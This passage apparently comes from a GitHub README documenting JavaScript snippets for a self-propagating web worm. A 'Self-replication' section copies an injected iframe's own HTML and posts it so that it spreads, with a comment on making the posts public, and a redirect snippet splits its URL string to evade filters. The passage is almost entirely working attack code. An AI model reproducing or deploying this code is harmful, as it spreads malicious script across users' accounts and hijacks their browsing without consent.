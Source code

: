 ```javascript
  response.send(string);
  let result = response.responseText;
  return result;
}
```

### Self-replication
⚠️DANGEROUS！！！
```javascript
function selfReplicationWithPost() {
  // get self iframe_srting
  let self = pdoc.getElementById('iseeyou');
  // to string
  let self_string = self.outerHTML;

  // encodeURI
  self_string = encodeURIComponent(self_string);

  // change false to true to make post public
  post(self_string, false);
}
```

### Redirect to another page

```javascript
// redirect to another page
pdoc.location.href = 'htt'+'ps://www.baidu.com';
```
